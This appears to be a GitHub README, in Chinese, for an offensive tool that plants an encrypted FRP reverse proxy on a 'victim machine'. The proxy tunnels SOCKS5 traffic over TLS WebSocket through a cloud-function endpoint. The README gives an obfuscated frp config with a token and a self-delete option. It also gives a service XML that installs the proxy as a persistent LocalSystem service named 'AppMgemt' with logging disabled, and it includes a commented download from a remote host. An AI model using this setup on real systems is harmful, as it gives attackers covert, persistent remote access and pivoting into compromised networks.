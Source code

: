 # rfas
FRP采用云函数+TLS加密，采用Websocket通信，配置文件也做了加密
将压缩包上传到受害者机器，解压，运行
这里注意的一点是run.xml是run.exe的配置文件，用来定义自启服务的配置，文件名要和配置文件名字统一
zz是frp的配置文件
如果不想做流量加密，将f3p.exe替换为正常的frp文件即可，配置文件同理
尖括号<>里为参数说明，正式使用请删除

zz
```
[common]
n2PvV = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
05ZBz = 443 <wss服务端口>
tx06L = qax!@#123 <连接服务器的token>
9XiEV = wss <WebSocket协议>
zSYqj = true
fV0yw = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
LYn04 = false <是否自删除配置文件>

[plugin_socks55]
N4DCJ = tcp
aQmFn = 8999 <remote_port>
oAZdB = true
aYpEk = true
umsUv = socks5 <协议>
```
run.xml
```
<service>
    <id>AppMgemt</id>
    <name>AppMgemt</name>
    <description></description>
    <!--
    <download from="http://x.x.x.x/<frp配置文件>" to="%BASE%\zz" />
    !-->
    <executable>"%BASE%\f3p.exe"</executable>
    <arguments></arguments>
    <serviceaccount>
      <username>LocalSystem</username>
     <!--
       <username>NT AUTHORITY\SYSTEM</username>
     !-->
    </serviceaccount>
    <log mode="none"/>
</service>
```
run.exe install & run.exe start

<img width="864" alt="image" src="https://user-images.githubusercontent.com/26845888/153735306-d161b493-caa0-4a43-8422-947ffbdea34e.png">
